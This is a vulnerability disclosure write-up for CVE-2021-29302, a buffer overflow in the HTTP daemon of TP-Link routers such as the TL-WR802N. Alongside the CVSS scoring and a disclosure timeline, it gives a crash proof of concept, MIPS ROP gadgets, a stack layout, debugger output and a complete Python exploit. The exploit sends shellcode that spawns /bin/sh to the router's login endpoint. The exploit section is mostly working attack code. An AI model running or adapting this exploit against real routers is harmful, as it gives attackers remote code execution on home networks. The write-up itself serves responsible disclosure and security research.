

# Buffer 0verflow in TP-Link Devices

## Overview

- **CVE ID**: [CVE-2021-29302](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29302)

- **Type**: Buffer overflow

- **Vendor**: TP-LINK (https://www.tp-link.com)

- **Products**: WiFi Router, such as [TL-WR802N(US)](https://www.tp-link.com/us/support/download/tl-wr802n/#Firmware), Archer_C50v5_US, etc.

- **Version**: V4_200 <= 2020.06

- **Fix**: [https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip](https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip)

## Severity

**High** 8.1 CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

| CVSS3.1             | Score     | Detail                                                       |
| ------------------- | --------- | ------------------------------------------------------------ |
| ATTACK VECTOR       | Network   | Connect the router through the network                       |
| ATTACK COMPLEXITY   | High      | It is necessary to use carefully constructed messages to attack when the  router has not set a password |
| PRIVILEGES REQUIRED | None      | No permissions are required                                  |
| USER  INTERACTION   | None      | No need for users to click                                   |
| SCOPE               | Unchanged | Null                                                         |
| CONFIDENTIALITY     | High      | RCE                                                          |
| INTEGRITY           | High      | RCE                                                          |
| AVAILABILITY        | High      | RCE                                                          |

## Description

There is a buffer overflow when HTTP body message is parsed by httpd  process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process access to illegal address.


The instruction where the error occurred is `libcmm.so`


Crash log


## Vulnerability analysis

Through the tracking of data flow, we found that the problem occurred in the following code



`v21` variable stores the value corresponding to each key-value pair (such as user name and password)，The length of the variable `v26` is only 1304 bytes. When we are exploiting the vulnerability, we also need to pay attention to the 96 lines of code that will cause a crash due to buffer overflow.

## How to Reproduce (PoC)

It is easy to reproduce this problem.

```python
# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 512 + "b" * 1024
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)
print response.text
```

## How to Exploit (exp)

In libuclibc-0.9.33.so, find the widget that can jump to the sleep function, and this widget can assign a value to the RA register, which is convenient to control the instruction that the return address points to.

```assembly
# gadget 1
.text:000369E4                 move    $t9, $s0
.text:000369E8                 lw      $ra, 0x24($sp)
.text:000369EC                 lw      $s0, 0x20($sp)
.text:000369F0                 addiu   $a0, 0xC
.text:000369F4                 jr      $t9
.text:000369F8                 addiu   $sp, 0x28
```

Look for instructions that can store the stack address in the register. The stack address is the shellcode address.

```assembly
# gadget 2
.text:00058894                 addiu   $a1, $sp, 0x34
.text:00058898                 move    $t9, $s0
.text:0005889C                 jalr    $t9
```

Jump to stack to execute code.

```assembly
# gadget 3
.text:0003FD8C                 move    $t9, $a1
.text:0003FD90                 move    $a1, $a2
.text:0003FD94                 jr      $t9
```

Stack layout

```powershell
┌─────────────┐◄───── sp
│             │
│             │
├─────────────┤◄───── sp + 0x68				# 
│     v26     │
├─────────────┤
│             │
│             │
│             │
│             │
│             │
│             │
├─────────────┤◄───── sp + 0x580			# 0x5880a764
│     v27     │
├─────────────┤◄───── sp + 0x584
│     v28     │
├─────────────┤◄───── sp + 0x588			# sleep
│     s0      │
├─────────────┤
│             │
│             │
├─────────────┤◄───── sp + 0x5ac			# gadget 1
│     ra      │
├─────────────┤◄───── sp1 = sp + 0x5b0
│             │
│             │
├─────────────┤◄───── sp1 + 0x20			# gadget 3
│     s0      │
├─────────────┤◄───── sp1 + 0x24			# gadget 2
│     ra      │
├─────────────┤◄───── sp2 = sp1 + 0x28
│             │
│             │
├─────────────┤◄───── sp2 + 0x34			# shellcode
│  shellcode  │
└─────────────┘
```

payload

```python
payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34
```

result

```shell
gef➤  c
Continuing.
process 444 is executing new program: /bin/busybox
Reading /bin/busybox from remote target...
Reading /bin/busybox from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...

```

exp

```python
# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests
from pwn import *

headers = {
    "Host": "192.168.0.1",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "text/plain",
    "Content-Length": "78",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/"
}


libcmm_base = 0x2b985000
file_base = 0x58800000
libuclibc_base = 0x2bcdf000

gadget_1 = 0x000369E4
gadget_2 = 0x00058894
gadget_3 = 0x0003FD8C

shellcode = "\x66\x06\x06\x24" + "\xff\xff\xd0\x04" + "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" + "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+ "\xab\x0f\x02\x24" + "\x0c\x01\x01\x01"+ "/bin/sh"

payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34

payload += shellcode


str_payload = ""

for p in payload:
	str_payload += chr(p)

formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname=admin\r\noldPwd=admin\r\npwd={}\r\n".format(str_payload)

url = "http://192.168.0.1/cgi?8"
response = requests.post(url, data=formdata, headers=headers)
print(formdata)
print(response.text)
```

## Disclosure Timeline

- 14-Mar-2021 Discoverd the vulnerability
- 15-Mar-2021 Responsibly disclosed vulnerability to vendor
- 19-Mar-2021 Vendor Acknowledged the disclosure & Vendor provided software build to verify the issue
- 24-Mar-2021 Requested for CVE-ID assignment
- 29-Mar-2021 CVE-ID Assigned
- 9-Apr-2021 Updated a CVE Record
- 10-Apr-2021 Notify CVE about a publication
- 3-Jul-2021 Added exploit
